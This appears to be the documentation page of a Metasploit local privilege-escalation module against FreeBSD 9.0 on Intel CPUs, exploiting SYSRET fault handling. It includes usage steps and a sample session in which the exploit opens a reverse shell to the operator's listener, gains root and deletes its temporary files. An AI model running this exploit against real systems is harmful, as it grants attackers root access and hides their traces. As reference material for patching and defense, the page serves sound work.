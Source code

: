 ## Description

  This module exploits a vulnerability in the FreeBSD 9.0-RELEASE (x64)
  kernel, when running on 64-bit Intel processors.

  By design, 64-bit processors following the X86-64 specification will
  trigger a general protection fault (GPF) when executing a SYSRET
  instruction with a non-canonical address in the RCX register.

  However, Intel processors check for a non-canonical address prior to
  dropping privileges, causing a GPF in privileged mode. As a result,
  the current userland RSP stack pointer is restored and executed,
  resulting in privileged code execution.


## Vulnerable Application

  This module has been tested successfully on FreeBSD 9.0-RELEASE.


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/freebsd/local/intel_sysret_priv_esc`
  4. `set SESSION <SESSION>`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

### FreeBSD 9.0-RELEASE

  ```
  msf5 > use exploit/freebsd/local/intel_sysret_priv_esc 
  msf5 exploit(freebsd/local/intel_sysret_priv_esc) > set session 1
  session => 1
  msf5 exploit(freebsd/local/intel_sysret_priv_esc) > set lhost 123.123.123.188
  lhost => 123.123.123.188
  msf5 exploit(freebsd/local/intel_sysret_priv_esc) > run

  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 123.123.123.188:4444 
  [+] FreeBSD version 9.0-RELEASE appears vulnerable
  [+] System architecture amd64 is supported
  [+] hw.model: Intel(R) Core(TM) i9-1337 CPU @ 9.99GHz is vulnerable
  [*] Writing '/tmp/.mTaR4rAPd.c' (4781 bytes) ...
  [*] Max line length is 131073
  [*] Writing 4781 bytes in 1 chunks of 17475 bytes (octal-encoded), using printf
  [*] Writing '/tmp/.LBGkIVh' (218 bytes) ...
  [*] Max line length is 131073
  [*] Writing 218 bytes in 1 chunks of 614 bytes (octal-encoded), using printf
  [*] Launching exploit...
  [*] [+] SYSRET FUCKUP!!
  [*] [+] Start Engine...
  [*] [+] Crotz...
  [*] [+] Crotz...
  [*] [+] Crotz...
  [*] [+] Woohoo!!!
  [+] Success! Executing payload...
  [*] Command shell session 2 opened (123.123.123.188:4444 -> 123.123.123.136:61024) at 2018-12-09 10:40:16 -0500
  [+] Deleted /tmp/.mTaR4rAPd.c
  [+] Deleted /tmp/.mTaR4rAPd
  [+] Deleted /tmp/.LBGkIVh

  id
  uid=0(root) gid=0(wheel) groups=0(wheel)
  uname -a
  FreeBSD freebsd-9-0 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64
  ```

